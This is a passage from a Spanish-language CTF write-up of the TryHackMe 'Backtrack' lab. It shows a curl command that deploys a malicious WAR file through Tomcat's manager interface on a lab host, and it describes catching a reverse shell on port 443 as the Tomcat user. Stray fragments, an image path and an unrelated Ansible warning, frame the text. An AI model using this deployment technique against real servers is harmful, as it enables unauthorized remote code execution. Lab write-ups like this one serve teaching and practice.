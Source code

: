 ![](../assets/img/backtrack-tryhackme-writeup/5.png)

Aunque no se tenga acceso a ese apartado, eso no significa que no tengamos permisos para subir el fichero en la ruta correspondiente, por lo que ejecutamos un **curl** para subir el fichero *m3n0s.war* malicioso al servidor:
```
> curl --user 'tomcat:************' --upload-file m3n0s.war "http://10.10.185.3:8080/manager/text/deploy?path=/m3n0s.war"
OK - Deployed application at context path [/m3n0s.war]
```

Nos ponemos en escucha al puerto 443 y accedemos a la ruta de nuestro fichero *WAR* malicioso, logramos ganar acceso a la máquina con el usuario *Tomcat*:
![](../assets/img/backtrack-tryhackme-writeup/6.png)


[WARNING]: provided hosts list is empty, only localhost is available. Note that